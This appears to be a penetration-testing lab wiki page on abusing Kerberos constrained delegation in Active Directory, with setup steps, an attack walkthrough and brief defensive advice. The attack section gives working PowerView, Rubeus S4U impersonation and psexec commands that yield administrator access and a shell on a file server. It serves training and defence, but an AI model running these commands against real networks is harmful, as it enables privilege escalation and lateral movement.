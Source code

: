 ```yaml
---
description: >-
  If a user or computer has constrained delegation configured, it's possible to
  impersonate any domain user and authenticate to a service that the user
  account is trusted to delegate to. It is also poss
---
```


# Constrained Delegation

## Configuring

### Prerequisite&#x20;

User `sa_transfer` creation from:

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open PowerShell and execute the following command to set a SPN for the user sa\_transfer:

```
setspn -A HTTP/FILE01.amsterdam.bank.local amsterdam\sa_transfer
```

![](<../../../.gitbook/assets/image (55).png>)

3\. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (37) (1).png>)

4\. Open the "Users" directory and right click the `sa_transfer` user and select "Properties".

5\. Open the "Properties" tab and select "Trust this user for delegation to specified services only". Then click "Use any authentication protocol" and select "Add".

![](<../../../.gitbook/assets/image (60) (1).png>)

6\. Select "Users or Computers" and type `FILE01` and click "Check Names" and "OK".

![](<../../../.gitbook/assets/image (11) (2).png>)

7\. Select the "cifs" service and click on "OK". Click on "Apply" and "OK" and the delegation is configured.

![](<../../../.gitbook/assets/image (58) (1).png>)



## Attacking

### How it works

If a user or computer has constrained delegation configured, it's possible to impersonate any domain user and authenticate to a service that the user account is trusted to delegate to. It is also possible to create tickets for other services since they aren't checked.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (16) (1) (1).png>)

3\. Execute the following query to enumerate all users with constrained delegation and select the samaccountname and msds-allowedtodelegateto attributes.

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

![](<../../../.gitbook/assets/image (73) (1).png>)

4\. The user `sa_transfer` can delegate access to `cifs\FILE01.amsterdam.bank.local`. To abuse this we need access to the user, luckily we could reset the password earlier.

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

5\. First we need to calculate the hash of the user, for this we can use Rubeus, using the following command:

```
.\Rubeus.exe hash /password:'2i^t#fFpL' /user:sa_transfer /domain:amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (76) (1) (1) (1).png>)

6\. The next step is too request a TGT and then request two service tickets for CIFS, HOST and RPCSS. So we can interact with the file system and psremoting for the fileserver. The easiest way to do this is using Rubeus.

```
.\Rubeus.exe s4u /user:sa_transfer /rc4:58A0D6C796769B84609E5F68C2213F96 /impersonateuser:administrator /domain:amsterdam.bank.local /msdsspn:cifs/FILE01.amsterdam.bank.local /altservice:CIFS,HOST,RPCSS /file01.amsterdam.bank.local /ptt
```

{% hint style="info" %}
* Possbible alt services:&#x20;
  * CIFS for directory browsing
  * HOST and RPCSS for WMI
  * HOST and HTTP for PowerShell Remoting/WINRM
  * LDAP for dcsync
* Another thing to keep in mind is that you can impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
{% endhint %}



![](<../../../.gitbook/assets/image (54) (1) (2).png>)

7\. When we list our tickets now we can see that we have three service tickets:

![](<../../../.gitbook/assets/image (48) (1).png>)

8\. Since we have a CIFS ticket we can list the `C` drive of the fileserver `FILE01`:

```
ls \\file01.amsterdam.bank.local\c$
```

![](<../../../.gitbook/assets/image (27) (1).png>)

9\. We are unable to use the RPC and HOST tickets for pssession since the target server doesn't have it enabled. We can get a shell with the CIFS ticket by using psexec from sysinternals:

```
.\psexec64.exe \\file01.amsterdam.bank.local cmd.exe
```

![](<../../../.gitbook/assets/image (75) (1) (1).png>)

## Defending

### Recommendations

* Tightly secure and monitor the user of AD objects with delegation set.
  * Set strong passwords and rotate them periodically.
  * Limit logons to systems.
  * Harden the systems these accounts are used.
* Add the flag "this account is sensitive and cannot be delegated"
* Add all high privileged accounts to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}
